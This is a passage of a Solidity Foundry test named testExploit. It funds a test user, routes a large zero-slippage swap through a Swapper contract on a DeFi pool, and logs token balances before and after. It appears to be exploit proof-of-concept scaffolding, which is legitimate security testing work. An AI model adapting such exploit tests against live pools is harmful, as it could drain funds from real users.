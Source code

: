 ```solidity
            pt = pool.token1();
        }

        projectToken = IERC20(pt);
    }

    function testExploit() public {
        console.log("Testing for a pool :", address(pool));
        console.log("================================================================");
        Swapper swapper = new Swapper(pool);

        vm.label(address(swapper), "swapper");

        address user = makeAddr("user");
        uint256 amountIn = 1000_000 ether;
        uint256 minOutput = 0;

        vm.label(user, "user");
        vm.deal(user, amountIn);

        emit log_named_decimal_uint("Before: Balance of Pool's WETH:", weth.balanceOf(address(pool)), 18);
        emit log_named_decimal_uint("Before: Balance of Pool's Project Token:", projectToken.balanceOf(address(pool)), 18);
        console2.log();

        emit log_named_decimal_uint("Before: Balance of ETH (swapper):", address(swapper).balance, 18);
        emit log_named_decimal_uint("Before: Balance of WETH (swapper):", weth.balanceOf(address(swapper)), 18);
        emit log_named_decimal_uint("Before: Balance of Project Token (swapper):", projectToken.balanceOf(address(swapper)), 18);
        console2.log();

        emit log_named_decimal_uint("Before: Balance of ETH (user):", user.balance, 18);
        emit log_named_decimal_uint("Before: Balance of WETH (user):", weth.balanceOf(user), 18);
        emit log_named_decimal_uint("Before: Balance of Project Token (user):", projectToken.balanceOf(user), 18);
        console2.log();

        vm.prank(user);
        (int256 amount0, int256 amount1) = swapper.check_swap{value: amountIn}(amountIn, minOutput);

        console2.log("After swap: Amount 0:", amount0);
        console2.log("After swap: Amount 1:", amount1);
        console2.log();

        emit log_named_decimal_uint("After: Balance of ETH (swapper):", address(swapper).balance, 18);
        emit log_named_decimal_uint("After: Balance of WETH (swapper):", weth.balanceOf(address(swapper)), 18);
        emit log_named_decimal_uint("After: Balance of Project Token (swapper):", projectToken.balanceOf(address(swapper)), 18);
        console2.log();

        emit log_named_decimal_uint("After: Balance of ETH (user):", user.balance, 18);
        emit log_named_decimal_uint("After: Balance of WETH (user):", weth.balanceOf(user), 18);
        emit log_named_decimal_uint("After: Balance of Project Token (user):", projectToken.balanceOf(user), 18);
        console2.log();

```